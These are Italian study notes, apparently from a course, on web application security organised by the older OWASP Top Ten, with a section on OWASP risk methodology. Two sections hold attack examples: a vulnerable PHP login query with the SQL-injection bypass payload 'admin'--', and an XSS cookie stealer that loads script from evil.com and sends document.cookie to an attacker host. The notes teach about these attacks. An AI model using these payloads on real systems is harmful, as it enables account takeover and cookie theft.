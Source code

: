 Gli accorgimenti di sicurezza non si devono peró fermare al livello applicativo, ma devono coprire anche le azioni dell'utente.

Per valutare queste problematiche utilizziamo la classifica **OWASP**(classifica dei problemi di sicurezza piú gravi).
## 1. Injection
Invio di codice arbitrario all'applicazione, che viene eseguito lato server.

Alcuni esempi tra i piú noti sono l'sql injection e il buffer overflow.

É possibile peró evitare attacchi di questo tipo "sanificando" l'input dell'utente.
### Esempio: SQL-injection, authentication bypass
Immaginiamo di avere su una pagina web PHP un form di login, richiedente username e password per l'accesso ad una dashboard. La pagina effettua una richiesta al database relazionale direttamete o si interfaccia con un controller per chiedere se i dati inseriti sono corretti.

Immaginiamo che la query sia 
```php
$username = $_POST['user'];
$password = $_POST['password'];
$query -> "select * from users where username='$username' and password='$password'";
```
notiamo che non viene fatta alcun controllo sull input, quindi un'attaccante é in grado di bypassare l'autenticazione con una semplice richiesta web con payload
```
user=admin'--
```
> Si suppone che esista l'utente admin e che la logica del codice PHP restante implementi il login.
## 2. XSS - Cross site scripting
Uno script può essere eseguito sul Browser della vittima, facendo in modo che i parametri del Browser relativi al sito target (in particolare I cookies) vengano intercettati.

Si dividono in due categorie: 
- **reflected XSS**: quello sopra descritto
- **stored XSS**: quando un'applicazione riceve un'input malevolo e lo include nelle risposte HTTP future in una faniera non sicura[1](https://portswigger.net/web-security/cross-site-scripting/stored)
### Esempio: Reflected XSS - Cookie stealer con phising
Immaginiamo che un sito abbia una form per i contatti, dove é possibile inserire il link al proprio sito.

La richiesta di contatto viene renderizzata dal browser sul pannello amministratore in un tag HTML *p* senza essere sanitizzato, come segue
```html
<!-- site=http://input-site.com -->
<p>Site: http://input-site.com</p>
```
Un attaccante puó quindi inserire codice javascript che viene eseguito dal browser.
```html
<!-- site=<script>alert(1)</script> -->
<p><script>alert(1)</script></p>
```
Si puó inoltre allegare una richiesta a un file js di nostro possesso, mettere in ascolto una reverse-shell e far effettuare la richiesta dal browser dell'attaccante(anche se finiremo nella sandbox del browser) oppure rubare il cookie dell'utente che visualizzerá la pagina:
```html
<p><script src="http://evil.com/pwn.js"></script></p>
```
```js
//pwn.js
var i=new Image;
i.src="http://evil-ip:/?"+document.cookie;
```
mettendo in ascolto un server HTTP per ricevere la richiesta.
## 3. Broken Authentication & session management
**Broken autentication**: l’autenticazione utente viene resa vana, ovvero un utente non autorizzato riesce ad autenticarsi.
**Broken Session management**: un utente non autorizzato riesce ad inserirsi all’interno di una sessione di un utente autorizzato.
## 4. Insecure direct object references(IDOR)
Un tipo di vulnerabilitá sul controllo degli accessi che sorge quando un'applicazione usa un'input utent per accedere agli oggetti direttamente.

Per esempio la pagina del proprio profilo utente, visualizzabile dopo l'autenticazione
``` https://insecure-website.com/customer_account?customer_number=132355``` 
effettua un riferimento diretto al database di backend, e questo rende accessibili i profili di altri utenti semplicemente modificando i valore del campo `customed_id`.
## 5. Cross site request forgery
É una vulnerabilitá che permette ad un attaccante di indurre azioni ad un utente che non aveva intenzione di compiere.

Un sito permette operazioni critiche agli utenti autorizzati previa autenticazione, durante la stessa sessione.
Lo stesso utente autorizzato apre una pagina fraudolenta in un’altra scheda, che lo porta ad richiedere una diversa operazione, all’interno della sessione autenticata:

Permette di bypassare la same-origin policy, che evita che piú pagine interferiscano tra di esse, per esempio sfruttando iframe collegati a siti malevoli.
## 6. Security Misconfiguration
Ad esempio:
1. Il framework di sviluppo non è aggiornato
2. Installo un pacchetto lato server ma non cambio gli utenti di default (es. user admin, password admin)
3. Directory listing in Apache
## 7. Insecure cryptographic storage
Ad esempio:
- Dati riservati sono memorizzati in chiaro, oppure la chiave è memorizzata in chiaro, sul server o sui backup
- Password e chiavi crittografiche deboli rispetto a guessing e cracking
- Password “unsalted”
## 8. Failure to restrict URL access
Un utente é in grado di raggiungere pagine di un sito che richiederebbero autenticazione senza autenticarsi.
## 9. Insufficient transport layer protection
- SSL solo su alcune delle pagine o componenti riservate.
- Certificati scaduti o con CA non riconosciute.
- In generale, possibilità di intercettare il traffico (es. Arp / DNS spoofing)
## 10. Unvalidated redirects and forwards
L’utente prevede delle pagine che ridirezionano l’utente verso una URL ottenuta a partire da un parametro – l’utente può cliccare su un link che lo porta al sito, ma poi lo ridireziona su un sito pericoloso.

Stessa cosa per i forward interni
## Altre vulnerabilitá
- **DOS** (OWASP top ten – entry A9 – nel 2004), es.:
	- syn flooding
	- “smurf”
- **Insufficient Anti-automation**, es.: 
	- biometrics
	- captcha
- **Phishing**
- Metodi di **autenticazione** per online banking
	es.:
	- one time passwords
	- password dispositive
	- SSL client authentication
	- autenticazione con firma elettronica
## Metologia OWASP
La top ten di OWASP viene sviluppata basandosi su questa tabella:
![[Pasted image 20230904220337.png]]

Chiaramente non è possibile trovare un threat agent né un business impact poiché sono dipendenti dalla situazione in cui ci troviamo. 

Tutte le altre variabili sono invece definite solamente dal tipo di vulnerabilità: 
- **Attack vectors**: **quanto** è **facile** **effettuare** un attacco sfruttando quella vulnerabilità. 
- **Weakness prevalence**: **quanto** è **diffusa** la vulnerabilità. 
- **Weakness detectability**: **quando** è **facile** **scoprire** la vulnerabilità. 
- **Tech impact**: **quali** sono gli **impatti tecnologici** a fronte di un attacco sfruttando quella vulnerabilità.